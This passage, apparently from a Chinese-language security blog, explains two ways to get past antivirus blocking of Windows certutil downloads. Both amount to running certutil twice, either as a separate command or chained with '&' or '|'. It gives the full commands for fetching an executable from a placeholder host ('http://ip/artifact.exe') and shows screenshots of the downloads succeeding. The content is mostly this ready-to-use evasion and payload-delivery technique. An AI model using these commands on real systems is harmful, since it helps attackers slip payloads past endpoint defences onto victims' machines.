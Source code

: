 这里有两种方法对杀软进行`certutil`下载绕过，本质都是执行两次`certutil`

第一种方法是先执行一个单独的`certutil`，然后再执行下载 exe 的命令，可以看到这里已经能够成功下载

```bash
certutil

certutil -urlcache -split -f http://ip/artifact.exe
```

[![](assets/1701612219-896e7d07a5f33757c145e4c227120a2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152043-888ba748-ca85-1.png)

另外一种方法就是使用 windows 自带的分隔符`&`和`|`，本质上跟第一种方法一样，相当于执行了两次`certutil`

```bash
certutil & certutil -urlcache -split -f http://ip/artifact.exe

certutil | certutil -urlcache -split -f http://ip/artifact.exe
```

[![](assets/1701612219-30ef8ad2e3f21e4d71a42aca3f0ce2e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152045-89ab7f36-ca85-1.png)
